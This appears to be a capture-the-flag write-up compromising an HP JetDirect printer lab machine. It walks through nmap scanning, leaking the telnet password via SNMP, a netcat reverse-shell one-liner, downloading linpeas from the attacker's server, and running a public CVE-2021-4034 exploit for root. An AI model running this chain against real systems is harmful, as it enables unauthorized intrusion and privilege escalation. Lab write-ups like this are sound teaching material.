





Here's a result of the NMAP Scan.

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|\_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=6/12%Time=62A625D0%P=x86\_64-pc-linux-gnu%r(NULL
SF:,F,"\\nHP\\x20JetDirect\\n\\n")%r(GenericLines,19,"\\nHP\\x20JetDirect\\n\\nPas
SF:sword:\\x20")%r(tn3270,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(GetReq
SF:uest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(HTTPOptions,19,"\\nHP\\x2
SF:0JetDirect\\n\\nPassword:\\x20")%r(RTSPRequest,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(RPCCheck,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNS
SF:VersionBindReqTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNSStatusR
SF:equestTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Help,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(SSLSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(TerminalServerCookie,19,"\\nHP\\x20JetDirect\\n\\nPassword:
SF:\\x20")%r(TLSSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Kerbe
SF:ros,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(SMBProgNeg,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(X11Probe,19,"\\nHP\\x20JetDirect\\n\\nPasswor
SF:d:\\x20")%r(FourOhFourRequest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r
SF:(LPDString,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPSearchReq,19,
SF:"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPBindReq,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(SIPOptions,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x
SF:20")%r(LANDesk-RC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(TerminalSe
SF:rver,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(NCP,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(NotesRPC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20
SF:")%r(JavaRMI,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(WMSRequest,19,"
SF:\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(oracle-tns,19,"\\nHP\\x20JetDirect
SF:\\n\\nPassword:\\x20")%r(ms-sql-s,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")
SF:%r(afp,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(giop,19,"\\nHP\\x20JetD
SF:irect\\n\\nPassword:\\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/12%OT=23%CT=1%CU=38853%PV=Y%DS=2%DC=T%G=Y%TM=62A6267
OS:9%P=x86\_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

nmap -sU 10.10.11.107

PORT    STATE SERVICE
161/udp open  snmp

We have TCP port 23 open and UDP port 161 open.

telnet 10.10.11.107

We need a password, the password might be sent over in clear text.

10.10.11.107 is connected to a HP JetDirect printer. I found a well written article about printer security. [https://www.irongeek.com/i.php?page=security/networkprinterhacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

I'm going to leverage snmpget to try and find a password.

snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135

snmp-get is returning something in hexadecimal. Lets convert it to ASCII and see if we find anything.

We got a password! Lets telnet in and see what else we can do.

Telnet has an exec option enabled, we can execute commands. Lets try and get a reverse shell going.

I got a one liner from [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \[ip\] \[port\] >/tmp/f

We also need to start a netcat listener on our kali machine.

nc -lnvp 4444

We're in and we have our first user flag!

As always, the next step is to run linpeas to see what we can exploit to escalate privilege to root.

python -m SimpleHTTPServer 6666

And on the victim machine.

wget 10.10.14.19:6666/linpeas.sh
./linpeas.sh

The machine is vulnerable to CVE-2021-4034

Clone a POC on your kali machine.

git clone https://github.com/berdav/CVE-2021-4034.git

Again, run a simplehttpserver.

python -m SimpleHTTPServer 6666

This time we want to fetch everything in the folder so we'll use a recursive option.

wget -r 10.10.14.19:6666
make
./cve-2021-4034

make and run the CVE.

And we're root!
